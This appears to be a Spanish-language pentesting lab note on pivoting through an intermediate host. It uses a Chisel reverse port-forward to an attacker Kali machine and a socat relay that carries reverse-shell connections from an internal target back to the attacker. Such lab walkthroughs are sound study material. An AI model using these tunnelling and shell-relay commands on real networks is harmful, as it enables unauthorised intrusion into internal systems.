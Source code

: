 [[Lab Pivoting, Tunneling - Synfonos]]
#pivoting 
Tendremos el siguiente escenario:
![[Pasted image 20240615202048.png]]

Chisel es una herramienta de pivoting compatible tanto con máquinas Windows como Linux. Nos permite de forma muy cómoda prácticamente obtener las mismas funciones que SSH (en el aspecto de Port Forwarding).

Tenemos un repositorio oficial para descargar la herramienta:
```bash
https://github.com/jpillora/chisel/releases
```

![[Pasted image 20240615202101.png]]

![[Pasted image 20240615202106.png]]

Nos lo descargamos en nuestra máquina atacante:
![[Pasted image 20240615202118.png]]

![[Pasted image 20240615202122.png]]

Y ahora ejecutamos el servidor con chisel desde nuestra máquina kali para recibir las conexiones:
![[Pasted image 20240615202130.png]]

A continuación, ejecutamos el siguiente comando en la máquina intermedia para indicar que el puerto 80 de la máquina final se convierta en el puerto 5000 de mi máquina atacante:
```bash
./chisel client 192.168.0.37:1234 R:5000:10.10.10.11:80
```

![[Pasted image 20240615202146.png]]

Y entonces ahora nuestro localhost de la máquina kali por el puerto 5000 será el puerto 80 de la máquina final:
![[Pasted image 20240615202153.png]]

Ahora, si queremos conseguir una reverse shell, tenemos que utilizar socat, ya que nosotros podemos ver a la máquina metasploitable, pero sin embargo esta máquina no nos ve a nosotros, por lo que dentro de la máquina intermedia ejecutamos el siguiente comando:
```bash
socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```
Y ahora ya podríamos efectuar cualquier ataque desde la máquina Kali y recibir la conexión desde la máquina final, pasando primero por el puerto 443 de la máquina ubuntu y luego enviando dicha conexión al puerto 443 de la máquina Kali.
